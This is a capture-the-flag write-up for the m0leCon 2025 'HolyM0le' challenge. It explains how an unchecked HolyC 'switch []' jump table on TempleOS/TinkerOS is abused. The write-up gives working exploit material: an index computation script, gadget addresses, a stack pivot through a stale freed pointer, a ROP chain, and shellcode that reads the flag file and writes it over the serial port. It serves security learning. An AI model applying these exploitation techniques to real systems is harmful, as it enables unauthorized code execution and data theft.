


HolyM0le
========

| Release date   | Event                                    | Event kind | Category    | Solve stats |
|:---------------|:-----------------------------------------|:-----------|:------------|:------------|
| March 20, 2025 | [m0leCon CTF 2025][ctftime-m0lecon-2025] | Jeopardy   | pwn, system | 2/10        |

[ctftime-m0lecon-2025]: https://ctftime.org/event/2725

> **11. Thou shalt not pwn this holy program.**
>
> ```
> nc holym0le.challs.m0lecon.it 15184
> ```


Description
-----------

The challenge consists in a TempleOS program written in HolyC, whose source code
is provided in the FAT filesystem of a QEMU disk (`.qcow2`) where TempleOS is
also installed. Specifically, [TinkerOS][tinkeros] v5.13 (a distro based on
TempleOS that is pretty close to the original) is used. Among other things, the
author of TinkerOS hosts a GitHub pages website at https://tinkeros.github.io/
where TempleOS and TinkerOS documentation is available.

The source code of the challenge can be found in the file
`/Home/Challenge.HC.Z`, which is in compressed form. TempleOS handles
compressoin and decompression of files ending with `.Z` transparently, so
referring to `Challenge.HC` in HolyC programs is the same as referring to
`Challenge.HC.Z`. The file can be decompressed either by opening it directly in
the TempleOS text editor inside the VM, or mounting the QEMU disk, extracting it
and manually decompressing it using third party tools
([example](https://github.com/aarzilli/templestuff)). TempleOS compiles HolyC
code on the fly, and the challenge source is included by `/Home/Once.HC.Z`,
which is executed immediately after the VM starts (similar to `~/.profile` on
Linux systems).

One important thing to note is that TempleOS uses 4-level page tables, but only
because it needs to set up paging to run in x86 64-bit long mode. Virtual
addresses are identity mapped to the same physical addresses and all memory is
RWX. There is no separation of privileges and everything runs in ring 0: kernel
code, compiler, any program we write and run.

The challenge program communicates with the outside through serial port 1 (COM1,
0x3f8), which is exposed by QEMU via TCP. It presents a menu interface which
allows to play with a few silly Bible-related functionalities (TempleOS comes
with an embedded `Bible.TXT` and a bunch of functions to extract verses and
other info from it):

```none
### ... huge ASCII art banner ... ###

What do you want to do?
      1) Read a book from the Bible
      2) Look up a Bible book and verse by line
      3) Choose a random Bible verse for me
      4) Let God generate a passphrase for me
    666) Commit a sin
>
```

The functionalities implemented by the program are all more or less useless for
exploitation purposes and are just decorative, so I won't be describing
them in detail, but you can check
[the source code](./src/files/IsoRoot/InstallHome/Challenge.HC) itself, which
should be easy to understand. I will only talk about the few bits of useful code
later on as needed.


Bug
---

There is only one subtle bug in the whole program, which may not be obvious only
looking at the source code. It comes from the incorrect usage of the special
HolyC `switch [] {...}` statement syntax.

In the `DoCommand` function, a decimal signed integer in stirng form is read
from COM1 and converted to a 64-bit signed integer by the `RecvI64()` helper
function. The following `switch` is then executed:

```c
U0 DoCommand() {
    U8 *book;
    I64 n;

    SendString(menu);
    n = RecvI64();

    /* ... */

    switch [n] {
    case 1:
        /* ... */
        break;
    case 2:
        /* ... */
        break;
    /* ... */
    default:
        /* ... */
        break;
    }

    SendString("---\n");
}
```

The special syntax `switch [n] {...}` with **square brackets** instead of normal
parentheses (`switch (n) {...}`) is a HolyC-specific construct that instructs
the compiler to *avoid performing any bound checking on the value* being
switched on. This is only safe if the `case` statements inside the `switch`
cover all possible values. Even with a `default` statement, no bound checking is
performed! Looking at the challenge source code, the only values explicitly
handled by `case` statements are `1`, `2`, `3`, `4` and `666`.

Extracting the compiled code is a bit tricky because the functions from
`Challenge.HC` are already compiled and loaded into memory, and we cannot
interact with the terminal of the process that is running the challenge. There
are a few easy ways to get around this:

1. Edit the `Challenge.HC` file with the text editor (`Ed("Challenge.HC");`) in
   another terminal and then `Reboot;` the machine to run the modified versoin.
   Adding `Uf("DoCommand");` at the end of the file will dump the disassembly of
   the `DoCommand` function in the terminal.
2. Include `Challenge.HC` in another terminal and then dump the code (again with
   either `Uf()` or some of its variants).
3. Crash the challenge with a large invalid value for `n` and let TempleOS
   automatically launch its integrated debugger, where we can then inspect
   functions and dump memory more or less like we would in a normal terminal.

In any case, disassembling the function yields the following:



If we take a look at the `switch` statement, we can see it is compiled as a jump
with lookup in a jump offset table that is indexed using the switch value
without any bound checking:



Dumping the address of the function with `"%x\n", &DoCommand;` (equivalent to
`Print("%x\n", &DoCommand);`) we can also look at the code via GDB or QEMU
monitor using `x/100i <addr>`:

```none
/* RSI holds n */
0x3677bd35:	movsx  rbx,WORD PTR [rsi*2+0x3677bf0b]
0x3677bd3e:	add    ebx,0x3677bd46
0x3677bd44:	jmp    rbx
```

The RSI register holds the `I64 n` variable we are switching over. As we can
see, a 2-byte signed offset is extracted from a jump offset table that starts at
`0x3677bf0b` and then added to the base address `0x3677bd46` to calculate the
final jump destination.

The jump offset table itself has 667 entries to cover values from `0` to `666`.
All entries hold offsets that point to code for the `default` statement, except
the ones for the implemented `case` statements which hold offsets pointing to
the right piece of code within `DoCommand()`. Anything outside the [`0`,`666`]
range will make the program *access the jump offset table out of bounds* and
pick an unexpected 16-bit signed integer from wherever we want (we have a 64-bit
value that we can use as index, so we can read from anywhere in memory).


Solution
--------

Even though the compilation is done just-in-time at boot when `Challenge.HC` is
included, the TempleOS compiler almost always chooses the same address for the
`DoCommand()` function, so we know the position of the function, the jump offset
table within the function, and the base address of the `switch` jump.

Given an arbitrary `n` as input, we can choose a 16-bit signed offset from
anywhere in memory, giving us limited RIP control: we can jump anywhere within
signed 16-bit distance from the base `switch` jump address of `0x3677bd46`.

### The path to RIP control

The only place in the whole program where we can input a significant amount of
data is the command number `1`:

```c
U0 DoCommand() {
    U8 *book;
    I64 n;

    SendString(menu);
    n = RecvI64();

    /* ... */

    switch [n] {
    case 1:
        SendString("Which book? ");
        RecvLine(&book, 150);        // <======

        SendString("How many lines? ");
        n = RecvI64();

        if (n < 1) {
            SendString("Cannot really read less than 1 line!\n");
            Free(book);
            break;
        }
        if (n > 50) {
            SendString("I'm afraid we don't have that much time!\n");
            Free(book);
            break;
        }

        CmdReadBook(book, n);
        Free(book);
        break;

    /* ... */
}
```

Command 1 calls `RecvLine(&book, 150)`, which allocates a buffer of 150 bytes
for the caller:

```c
U0 RecvLine(U8 **out, I64 sz) {
    U8 *p;

    if (sz <= 0) {
        *out = NULL;
        return;
    }

    p = *out = MAlloc(sz); // <======
    if (p == NULL)
        return;

    /* ... */
}
```

The `book` variable holds a pointer to a `MAlloc`d buffer and it's the only
local variable that resides on the stack frame of `DoCommand` (the `Uf()`
function also tells us this, see first screenshot above).

Can we hijack the `switch` to jump into the buffer allocated via `MAlloc()`? Not
really. Heap and code are too distant from each other, definitely not within 16
bits of distance. Furthermore `MAlloc()` does not always return the same
predictable addresses.

Taking a closer look, the buffer is always correctly `Free`d by `DoCommand()`,
***however*** the `book` pointer itself is not cleared, and therefore its old
value stays on the stack. Providing the right input, the rest of the code in
`DoCommand()` can preserve the old value on the stack without overwriting it
when pushing function arguments for other calls. If we can somehow jump to some
code that reads the buffer pointer for us, we may be able to *stack pivot* into
the buffer.

We can then:

1. Execute command `1`.
2. Provide some payload as "book name".
3. Input `0` as the number of lines to read to avoid further functions calls and
   preserve the `book` pointer on the stack.
4. Provide some out of bound command value to hijack the `switch` statement in
   the second `DoCommand()` call.

Doing this, we will find ourselves with the stack at the moment of the `JMP RBX`
looking as follows (output from pwndbg):

```none
00:0000│ rsp 0x369a20b8 —▸ 0x367aa780 —▸ 0x367b6c28 ◂— 0x367aa780
01:0008│-010 0x369a20c0 —▸ 0x369a20e0 —▸ 0x369a20f8 —▸ 0x369a21a8 —▸ 0x369a21d8 ◂— ...
02:0010│-008 0x369a20c8 —▸ 0x37a6c628 ◂— 'AAAAAAAA'
03:0018│ rbp 0x369a20d0 —▸ 0x369a20e0 —▸ 0x369a20f8 —▸ 0x369a21a8 —▸ 0x369a21d8 ◂— ...
04:0020│+008 0x369a20d8 —▸ 0x3659fb6f ◂— 0x304d796c6f48f9eb
```

At RSP+0x10 (RBP-0x08) we have the `book` pointer holding the last book name we
provided.

### Finding the right gadget

To stack pivot into `book` we have a few options for potential gadgets:

1. `pop xxx; ...; pop xxx; ...; pop rsp;`
2. `add RSP, 0x10; ...; pop rsp`
3. `pop xxx; pop xxx; pop rbp; ...; leave; ret`
4. or really anything else equivalent...

We can only jump "near" the base address `0x3677bd46` because the jump offset
is a signed 16-bit integer:

```none
0x3677bd35:  movsx  rbx,WORD PTR [rsi*2+0x3677bf0b]
0x3677bd3e:  add    ebx,0x3677bd46
0x3677bd44:  jmp    rbx
```

To look for gadgets, we can dump memory in the range [`0x3677bd46 - 0x8000`,
`0x3677bd46 + 0x7fff`] via QEMU monitor:

```none
(qemu) memsave 0x36773d46 0x10000 mem.bin
$ ROPgadget --rawArch x86 --rawMode 64 --rawEndian little --offset 0x36773d46 --binary mem.bin
```

This doesn't however yield many interesting results... the TempleOS compiler
does not really like to emit a lot of `pop RBP` nor `pop RSP` it seems. At least
not close to our code. There may be other useful gadgets that pop the buffer
address into different registers that then end up being used, but popping it
straight into RBP or RSP is the easiest thing to do, if possible.

With a bit of manual work and the help of
[Capstone](https://pypi.org/project/capstone/) we can write a simple Python
script to try and look for more gadgets (see
[`src/find_gadgets.py`](./src/find_gadgets.py) script) in the dumped code.

As it turns out, there are a few `pop RBP` lying around that look promising.
They are in the middle of the (rather weird and most definitely not placed there
on purpose) code at the beginning of `DoCommand()` that checks for a special
value (using a C integer character constant) to print some seemingly useless
debug info to the terminal:

```c
U0 DoCommand() {
    U8 *book;
    I64 n;

    SendString(menu);
    n = RecvI64();

    if (n >= '[XX]') {
        "$RED$--- [DEBUG] ---\n$FG$";
        "$RED$Task: %s (%s)\n$FG$", Fs->task_name, Fs->task_title;

        if (n >= '[XX]' + 1)
            "$RED$Parent: %s (%s)\n$FG$", Fs->parent_task->task_name,
                Fs->parent_task->task_title;
        if (n >= '[XX]' + 2)
            "$RED$Dir: %c://%s\n$FG$", Drv2Let(), Fs->cur_dir;
        if (n >= '[XX]' + 3)
            "$RED$Window: %d %d %d %d\n$FG$", Fs->win_left,
                Fs->win_right, Fs->win_top, Fs->win_bottom;

        return;
    }

    SendString("---\n");

    switch [n] {

    /* ... */
}
```

The constant `'[XX]'` evaluates to `0x5d58585b`, or `5b 58 58 5d`, which
disassembled is `pop rbx; pop rax; pop rax; pop rbp;`. The other 3 constants
just have a different LSB due to the `+` addition and therefore when interpreted
as code start with a pop into a different register, but all end with the same
sequence: `pop rax; pop rax; pop rbp;`. The last `if` statement above is
compiled as:

```none
0x3677bced:  cmp    rsi,0x5d58585e
0x3677bcf4:  jl     0x3677be7d
0x3677bcfa:  xor    eax,eax
0x3677bcfc:  rex.W push QWORD PTR fs:[rax+0x60]
/* ... */
```

Jumping to `0x3677bced + 4`, in the middle of the CMP immediate (`0x5d58585e`
corresponding to `'[XX]' + 3`) yields the following code:

```none
0x3677bcf1:  pop    rax
0x3677bcf2:  pop    rax
0x3677bcf3:  pop    rbp                  # POP book pointer into RBP
0x3677bcf4:  jl     0x3677be7d           # Not taken
0x3677bcfa:  xor    eax,eax
0x3677bcfc:  rex.W push QWORD PTR fs:[rax+0x60]
0x3677bd01:  xor    eax,eax
0x3677bd03:  rex.W push QWORD PTR fs:[rax+0x58]
0x3677bd08:  xor    eax,eax
0x3677bd0a:  rex.W push QWORD PTR fs:[rax+0x50]
0x3677bd0f:  xor    eax,eax
0x3677bd11:  rex.W push QWORD PTR fs:[rax+0x48]
0x3677bd16:  push   0x4
0x3677bd18:  push   0x3677bee7
0x3677bd1d:  call   0x18556
0x3677bd22:  add    rsp,0x30
0x3677bd26:  jmp    0x3677be7d           # Jump to function epilogue
  <...snip...>
0x3677be7d:  pop    rsi
0x3677be7e:  leave                       # Stack pivot into MAlloc'd buffer
0x3677be7f:  ret
```

This "gadget" is not so easy to spot because of its length and the unconditional
JMP to the end of the function, but it does exactly what we want: it pops two
values from the stack and then pops the `book` pointer into RBP, moving it
into `RSP` and giving us RIP control with `leave; ret`.

### Calculating the right jump

Now that we have a base address (`0x3677bd46`) and a destination (`0x3677bcf1`)
we can calculate that the offset needed for the jump is
`0x3677bcf1 - 0x3677bd46 == -85` (or `0xffab` as unsigned 16-bit integer).

Since we read the jump offset with `movsx rbx,WORD PTR [rsi*2+0x3677bf0b]`, we
can read from any odd memory address, provided the right value for RSI (`n`).
One good place to look at is low memory addresses that contain TempleOS kernel
code, which is fixed as the kernel is a precompiled binary blob and TempleOS
does not use any kind of address randomization. Another alternative if we don't
find what we want is to put the 16-bit offset right in the `MAlloc`'d buffer
itself and guess its location, but that would be less reliable.

```none
(qemu) memsave 0x0 0x1000000 mem.bin
```

We can find pretty much any 16-bit offset we want there... we just need a bit of
math (and luck):

```python
jump_table = 0x3677bf0b
jump_base  = 0x3677bd46
target     = 0x3677bcf1
needle     = (target - jump_base).to_bytes(2, 'little', signed=True)

# (qemu) memsave 0x0 0x1000000 mem.bin
mem = open('mem.bin', 'rb').read()

slot_addr = -1
while 1:
    slot_addr = mem.find(needle, slot_addr + 1)
    assert slot_addr != -1

    if (slot_addr - jump_table) % 2 == 0:
        break
else:
    sys.exit('Failed to find jump table index')

print(hex(slot_addr))
# 0x115a7

slot_idx = (slot_addr - jump_table) // 2
print(slot_idx)
# -456873138
```

Supplying `-456873138` as index to `DoCommand()` will cause the `switch` to jump
to `0x3677bd46 + [0x3677bf0b + 2 * -456873138] == 0x3677bcf1`. Right into the
useful gadget we found.

The strategy is:

1. Run command `1` and supply a ROP chain when asked for the book title. It will
   be written into a `MAlloc`'d buffer whose address is saved on the stack.
2. Input `0` as the number of lines to return exit early from `DoCommand()` and
   preserve the address on the stack, even though the underlying buffer is
   released via `Free()`.
3. Input `-456873138` as command to hijack the `switch` and jump to our gadget,
   which will pop the old buffer address into RBP and pivot the stack there.

### ROP chain + shellcode

Now that we successfully control the stack pointer and instruction pointer we
can run a short ROP chain to locate the new stack (i.e. the `MAlloc`'d buffer
address) and jump into it to run some shellcode. Alternatively we could invoke
something like `ReadLine()` to read code into memory and jump into it. As
already seen in the introduction above, memory protections don't really exist in
TempleOS so everything is RWX. We have a lot of gadgets at low memory addresses
(kernel code) so it should be doable.

What I ended up doing was locating the new RSP and then jumping ahead into some
shellcode.

```python
payload = flat([
    # Scratch value for LEAVE (goes in RBP)
    0x41414141        ,
    # Pop any valid address in RAX to not crash in the next gadget
    0x000000000000b039, # pop rax ; ret
    stack             ,
    # Copy current RSP into RDI
    0x00000000000ea85f, # push rsp ; add dword ptr [rax], eax ; add byte ptr [rbx + 0x5e], bl ; pop rdi ; pop rbp ; ret
    0x41414141        ,
    # Calculate address of shellcode
    0x000000000000b039, # pop rax ; ret
    8 * 5             ,
    0x00000000000ca95d, # add edi, eax ; ret
    # Jump into shellcode placed right after this chain in the buffer
    0x00000000000cd540, # push rdi ; ret
])
```

All kernel-provided functions are available at low fixed addresses as they are pre-compiled into the kernel binary. We can look them up by name in the
[TinkerOS documentation](https://tinkeros.github.io/WbGit/Home/Web/SymsAddress.html#l1)
and print their address from any terminal using `"%x\n", &Func;`.

Reading the flag is now only a question of using `FileRead()` (or similar
functions, like `DocNew()` + `DocRead()` like the challenge itself does) plus a
simple loop to write to serial. Other alternatives are possible, such as
guessing or scanning for the location of the `Banner()` function and using it to
read the file for us either by editing the string embedded in the code holding
the file name or jumping in the middle of the function with the right stack set
up.

In our shellcode we have free reign. If we decide to manually perform output, we
only need to be careful and `Yield()` often enough because TempleOS is *not*
preemptive and we can end up deadlocking the system. This is not necessarily
needed, but can significantly improve the stability of the shellcode.

```python
Yield    = 0x105c5
FileRead = 0x38ccc

payload += asm('''
    /* FileRead("~/Flag.TXT", NULL, NULL); */
    push 0
    push 0
    lea eax, [rip + fname]
    push rax
    mov eax, {FileRead}
    call rax

    mov esi, eax
    mov ecx, 100
    mov edi, {Yield}

    /* Write to serial carefully one byte at a time. Could also be done with
     * a simple REP OUTSB but that might hang the OS. */
wait:
    mov dx, 0x3f8 + 5
    in al, dx
    and al, 0x20
    jnz ok
    call rdi
    jmp wait
ok:
    mov dx, 0x3f8
    mov al, [esi]
    out dx, al
    inc esi
    loop wait

    /* Yield to properly flush serial. Again, optional, just to avoid hangs
     * or crashes before we get the data. */
done:
    call rdi
    jmp done

fname:
    .asciz "~/Flag.TXT"
''')
```

### Complete exploit

See [`src/expl.py`](src/expl.py) for the complete exploit script.


[tinkeros]: https://github.com/tinkeros/TinkerOS
